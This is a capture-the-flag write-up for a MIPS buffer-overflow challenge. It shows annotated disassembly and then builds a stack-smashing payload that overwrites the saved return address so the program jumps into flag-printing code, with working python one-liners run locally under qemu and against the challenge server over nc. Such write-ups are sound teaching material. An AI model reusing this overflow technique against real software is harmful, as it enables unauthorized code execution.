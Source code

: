     |           0x00400850      1c00bfaf       sw ra, (var_1ch)            ; sw $t,C($s), stores a word into: MEM[$s+C] and the following 3 bytes.
    |           0x00400854      1800beaf       sw fp, (var_18h)            ; sw $t,C($s), stores a word into: MEM[$s+C] and the following 3 bytes.
    |           0x00400858      25f0a003       move fp, sp                 ; moves a register value into another register (pseudoinstruction).
    |           0x0040085c      1000bcaf       sw gp, (var_10h)            ; sw $t,C($s), stores a word into: MEM[$s+C] and the following 3 bytes.
    |           0x00400860      3480828f       lw v0, -0x7fcc(gp)          ; [0x4a09a4:4]=0x470000 ; lw $t,C($s), loads the word stored from: MEM[$s+C] and the following 3 bytes.
    |           0x00400864      74544424       addiu a0, v0, 0x5474        ; 'tT' ; add sign-extended constants (or copy one register to another: addi $1, $2, 0); arg1
    |           0x00400868      3080828f       lw v0, -loc.__ehdr_start(gp) ; [0x4a09a0:4]=0x400000 loc.__ehdr_start ; lw $t,C($s), loads the word stored from: MEM[$s+C] and the following 3 bytes.
    |           0x0040086c      30074224       addiu v0, v0, 0x730         ; add sign-extended constants (or copy one register to another: addi $1, $2, 0)
    |           0x00400870      25c84000       move t9, v0                 ; moves a register value into another register (pseudoinstruction).
    |           0x00400874      aeff1104       bal sym.print_file          ; branch and link
    |           0x00400878      00000000       nop                         ; no operation
    |           0x0040087c      1000dc8f       lw gp, (arg_10h)            ; lw $t,C($s), loads the word stored from: MEM[$s+C] and the following 3 bytes.
    |           0x00400880      25200000       move a0, zero               ; moves a register value into another register (pseudoinstruction).
    |           0x00400884      2081828f       lw v0, -sym.exit(gp)        ; [0x4a0a90:4]=0x407b28 sym.exit ; lw $t,C($s), loads the word stored from: MEM[$s+C] and the following 3 bytes.
    |           0x00400888      25c84000       move t9, v0                 ; moves a register value into another register (pseudoinstruction).
    |           0x0040088c      a61c1104       bal sym.exit                ; branch and link ; void exit(int status)
    \           0x00400890      00000000       nop                         ; no operation


Let's take address `0x00400858`, I like it because it restores `fp` 
with some useful value and we must not think a lot about what to 
write to it.
All pieces together: 260 bytes of trash, 4 bytes of more trash 
(because `fp` will be overwritten very soon) and 4 bytes of return 
address to `0x00400858` (remember byte ordering, it is 58:08:40:00 in 
order), high byte of which we may not send, `scanf()` will write it 
for us as NULL-terminator.
Try it:

    $ python -c "print('A'*260 + 'A'*4 + '\x58\x08\x40')" | qemu-mipsel ./bof
    Cauliflower systems never crash >>
    could not open flag
    $ 

Notice that there is no segmentation fault, the program thinks that 
everything is Ok. And there is message that it tries but could not open 
a flag. This tells us that we are on the right way. Check it with 
remote server:

    $ python -c "print('run\n' + 'A'*260 + 'A'*4 + '\x58\x08\x40')" | nc buffer-overflow.ctfcompetition.com 1337
    Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
     Bonus flag for controlling the crash.
